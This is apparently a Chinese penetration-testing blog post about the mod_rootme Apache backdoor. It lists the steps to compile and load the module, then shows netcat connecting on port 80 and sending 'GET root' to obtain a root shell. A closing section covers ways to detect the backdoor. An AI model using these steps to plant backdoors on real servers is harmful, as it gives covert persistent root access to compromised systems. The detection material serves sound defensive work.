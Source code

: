 ```yaml
---
layout: post
title: Apache端口复用后门
categories: penetration
tags: [penetration,backdoor]
---
```

测试环境

```bash
CentOSx64 6.5
Apache2.5
```
**0x01 利用方式**

先修改后门的里面的httpd22.h文件，不修改的话，在apache启动的时候会报错

```c
将:
#define MODULE_MAGIC_COOKIE 0x41503230UL
改为:
#define MODULE_MAGIC_COOKIE 0x41503232UL

将:
#define MODULE_MAGIC_NUMBER_MAJOR 20020903
改为:
#define MODULE_MAGIC_NUMBER_MAJOR 20051115
```
然后保存。输入make linux进行编译

![185317750](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-185317750.jpg)

然后修改/etc/httpd/conf/httpd.conf

添加 LoadModule rootme22_module modules/mod_rootme22.so 加载这个模块。

然后启动apache

然后使用就可以连接80端口 nc ip 80 然后输入GET root


![4195482967](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-4195482967.jpg)

成功获取shell


**0x02 检测方式**

1.通过ps -ef | grep httpd 可以看到有root用户使用的httpd子进程


![67507677](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-67507677.jpg)

然后可以进一步去查看apache配置文件

2.通过

```bash
ps -ef | grep http | head -n 1 | awk '{system("ls -l /proc/"$2"/fd")}' | grep pipe | wc -l
```
正常情况下是64，加载了mod_rootme后是66


3.在web目录下写个phpinfo看是否加载了mod_rootme模块




